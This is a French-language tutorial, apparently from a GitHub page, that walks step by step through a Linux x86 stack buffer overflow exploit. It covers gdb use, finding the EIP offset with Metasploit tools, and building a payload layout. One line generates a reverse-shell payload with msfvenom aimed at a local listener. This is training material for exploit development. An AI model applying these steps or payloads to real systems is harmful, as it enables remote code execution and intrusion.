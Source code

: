 2. Lancer gdb sur le programme

```shell-session
gdb -q <prog>
```

3. Utiliser le pattern genéré

```shell-session
(gdb) run $(python -c "print '<pattern>'") 
```


4. Identifier l'adresse de l'EIP

```shell-session
(gdb) info registers eip
```

5. Calculer le nombre exact de caractères nécessaires pour jump sur l'EIP

```shell-session
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP_adresse>
```

6. Envoyer le nombre de caractères identifiés pour overwrite l'EIP et rajouter quelques caractères afin de confirmer.

```shell-session
run $(python -c "print '\x55' * <nb_caractères> + '\x66' * 4")
```




---
# 2. Déterminer la longueur pour le Shell code


1. Générer un shellcode avec msfvenom (reverse shell), identifier le payload size et reserver au moins le double.

```shell-session
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c
```


Rajouter des NOPS (no operations) entre le buffer et le shellcode (optionnel)

1. We need a total of X octets to get to the `EIP`.
2. Here, we can use an additional `100 octets` of `NOPs`
3. `150 octets` for our `shellcode` (payload size x2).
4. 4 bytes for the EIP

  Determine the Length for Shellcode

```shell-session
   Buffer = "\x55" * (<nb_caractères> - 100 - 150) = ?
     NOPs = "\x90" * 100
Shellcode = "\x44" * 150
      EIP = "\x66" * 4
```
